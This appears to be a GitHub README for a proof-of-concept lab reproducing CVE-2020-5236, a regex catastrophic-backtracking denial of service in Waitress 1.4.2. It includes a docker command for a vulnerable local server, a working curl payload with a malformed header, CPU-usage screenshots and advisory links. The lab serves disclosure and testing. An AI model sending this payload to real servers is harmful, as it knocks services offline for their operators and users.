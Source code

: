 # Waitress 1.4.2 ReDoS - CVE-2020-5236

> Waitress version 1.4.2 allows a DOS attack When waitress receives a header that contains invalid characters. When a header like "Bad-header: xxxxxxxxxxxxxxx\x10" is received, it will cause the regular expression engine to catastrophically backtrack causing the process to use 100% CPU time and blocking any other interactions. This allows an attacker to send a single request with an invalid header and take the service offline.

  by NVD

## Using
### Run vulnerable server
```
$ docker run --rm --name waitress -v "$PWD/src:/src" -p "8080:8080" -it python:3.7-slim python /src/server.py
```


### PoC
```
$ curl "http://127.0.0.1:8080/hello/hogefuga" -H "Bad-header: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx`echo -n '\x10'`"
```

Show cpu usage for server.  Exec "`docker stats waitress`".  
<img width="800" src="https://user-images.githubusercontent.com/3177297/73911334-08cc1000-48f5-11ea-8b3f-44b320422ef8.png">  
↓ Exec PoC  
<img width="800" src="https://user-images.githubusercontent.com/3177297/73911339-09fd3d00-48f5-11ea-9720-ba46492824d7.png">

## References
- [NVD - CVE-2020-5236](https://nvd.nist.gov/vuln/detail/CVE-2020-5236)
- [Catastrophic backtracking in regex allows Denial of Service · Advisory · Pylons/waitress](https://github.com/Pylons/waitress/security/advisories/GHSA-73m2-3pwg-5fgc)
